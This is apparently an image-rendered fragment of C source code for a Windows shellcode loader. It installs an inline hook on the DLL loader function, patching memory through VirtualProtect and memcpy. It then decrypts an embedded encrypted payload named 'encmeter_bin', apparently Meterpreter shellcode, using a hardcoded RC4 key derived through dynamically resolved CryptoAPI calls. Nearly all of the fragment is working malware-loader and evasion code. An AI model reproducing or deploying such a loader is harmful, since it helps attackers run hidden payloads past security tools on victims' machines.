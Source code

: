 ```
    *(void **)(boing + 2) = &_LdrLoadDll;

    // write the hook
    VirtualProtect(lpAddr, 13, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpAddr, boing, sizeof(boing));
    VirtualProtect(lpAddr, 13, oldProtect, &oldProtect);

    return;
}

BOOL DecryptShellcode()
{
    BOOL bSuccess = TRUE;

    HCRYPTKEY hCryptoKey;
    HCRYPTHASH hCryptHash;
    HCRYPTPROV hCryptoProv;

    BYTE* pbKey = "HideMyShellzPlz?";
    DWORD dwLen = strlen(pbKey);

    // get the crypto context
    bSuccess = fnCryptAcquireContextW(&hCryptoProv, NULL, L"Microsoft Enhanced RSA and AES Cryptographic Provider", PROV_RSA_AES, CRYPT_VERIFYCONTEXT);
    if (!bSuccess)
    {
        printf("CryptAcquireContextW\\n");
        goto CLEANUP;
    }

    // init an create the hashing handle
    bSuccess = fnCryptCreateHash(hCryptoProv, CALG_SHA_256, 0, 0, &hCryptHash);
    if (!bSuccess)
    {
        printf("CryptCreateHash\\n");
        goto CLEANUP;
    }

    // add the key to the hash object
    bSuccess = fnCryptHashData(hCryptHash, pbKey, dwLen, 0);
    if (!bSuccess)
    {
        printf("CryptHashData\\n");
        goto CLEANUP;
    }

    // gen the session keys from the hash
    bSuccess = fnCryptDeriveKey(hCryptoProv, CALG_RC4, hCryptHash, 0,&hCryptoKey);
    if (!bSuccess)
    {
        printf("CryptDeriveKey\\n");
        goto CLEANUP;
    }

    // decrypt the buffer
    bSuccess = fnCryptDecrypt(hCryptoKey, NULL, FALSE, 0, (BYTE*)encmeter_bin, &encmeter_bin_len);
    if (!bSuccess)
    {
        printf("CryptDecrypt: %d\\n", GetLastError());
        goto CLEANUP;
    }

    goto CLEANUP;
```